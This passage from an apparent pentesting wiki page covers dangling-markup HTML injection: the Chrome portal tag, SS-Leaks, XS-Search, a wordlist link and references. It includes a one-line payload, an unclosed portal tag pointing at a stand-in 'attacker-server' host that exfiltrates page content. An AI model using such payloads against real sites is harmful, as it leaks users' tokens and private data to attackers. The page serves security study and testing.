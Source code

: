 ```
### New \<portal HTML tag

You can find a very **interesting research** on exploitable vulnerabilities of the \<portal tag [[https://research.securitum.com/security-analysis-of-portal-element/|here]].\
At the moment of this writing you need to enable the portal tag on Chrome in `chrome://flags/#enable-portals` or it won't work.

```html
<portal src='https://attacker-server?
```
```
### HTML Leaks

Not all the ways to leak connectivity in HTML will be useful for Dangling Markup, but sometimes it could help. Check them here: [[https://github.com/cure53/HTTPLeaks/blob/master/leak.html|https://github.com/cure53/HTTPLeaks/blob/master/leak.html]]

## SS-Leaks

This is a **mix** between **dangling markup and XS-Leaks**. From one side the vulnerability allows to **inject HTML** (but not JS) in a page of the **same origin** of the one we will be attacking. On the other side we won't **attack** directly the page where we can inject HTML, but **another page**.

[[ss-leaks.md]]

## XS-Search/XS-Leaks

XS-Search are oriented to **exfiltrate cross-origin information** abusing **side channel attacks**.Therefore, it's a different technique than Dangling Markup, however, some of the techniques abuse the inclusion of HTML tags (with and without JS execution), like [[../xs-search/index.html#css-injection) or [**Lazy Load Images**](../xs-search/index.html#image-lazy-loading|**CSS Injection**]]**.**

[[../xs-search/]]

## Brute-Force Detection List

[[https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/dangling_markup.txt]]

## References

- [[https://aswingovind.medium.com/content-spoofing-yes-html-injection-39611d9a4057|https://aswingovind.medium.com/content-spoofing-yes-html-injection-39611d9a4057]]
- [[http://lcamtuf.coredump.cx/postxss/|http://lcamtuf.coredump.cx/postxss/]]
- [[http://www.thespanner.co.uk/2011/12/21/html-scriptless-attacks/|http://www.thespanner.co.uk/2011/12/21/html-scriptless-attacks/]]
- [[https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup|https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup]]

